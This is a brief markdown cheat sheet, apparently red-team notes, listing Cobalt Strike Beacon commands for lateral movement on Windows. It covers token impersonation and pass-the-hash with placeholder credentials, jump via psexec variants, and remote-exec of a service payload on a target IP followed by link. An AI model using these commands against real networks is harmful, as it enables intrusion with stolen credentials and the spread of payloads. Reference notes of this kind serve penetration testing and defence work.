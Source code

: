```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - psexec
  - network-protocols
  - smb
  - cobalt-strike
  - windows
---
```

# Cobalt Strike

## 01 - `jump`

```
beacon> make_token <domain>\<username> <password>

beacon> pth <domain>\<username> <password>

beacon> jump <psexec | psexec_psh | psexec64> <listener> <IP>
```

## 02 - `remote-exec`

```
beacon> make_token <domain>\<username> <password>

beacon> pth <domain>\<username> <password>

beacon> remote-exec psexec <IP> C:\remote\path\to\payloadsvc.exe

beacon> link <IP>
```